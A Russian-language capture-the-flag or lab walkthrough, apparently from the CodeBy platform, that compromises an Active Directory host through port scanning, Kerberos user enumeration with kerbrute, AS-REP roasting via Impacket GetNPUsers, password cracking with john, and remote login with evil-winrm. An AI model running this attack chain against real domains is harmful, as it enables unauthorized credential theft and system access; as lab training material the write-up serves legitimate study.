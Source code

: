 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d8548d1-1a8f-4b78-bd5a-8fccb3659957)
```
nmap -p- 192.168.2.2 -v 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcb6da32-cea4-403c-9397-9a3783c16877)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/af92e839-6787-4485-b58f-b592b4985dbd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/535cbc99-318b-4b55-9209-95c67fb518d0)

```
nmap 192.168.2.2 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7da0c360-b644-4881-b0e4-283b041dc9d3)

Формируем список пользователей с помощью скрипта:
```
tut script python
```
Получаем такой файл

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0662a67-eec6-40b9-8fc9-8ba22ac46a3e)

+ добавляем admin, administrator, Administrator, Admin и т.д.

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/

https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.2 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05796fc8-26cd-4a58-a283-2957d77a9a64)

https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/
https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py codeby.cdb/ -dc-ip 192.168.2.2 -usersfile user-hack.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8093b52d-b8e6-4c3a-9182-7711d460f511)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6377e73c-ce8a-4a78-bcd3-09c73e44d1c7)

john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash-kovaleva.txt 

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e0a49758-64c9-4bed-a116-134d7b04ea4a)
```
evil-winrm -i 192.168.2.2 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/695aca7e-e845-447e-9bb8-7bdfc20367ce)

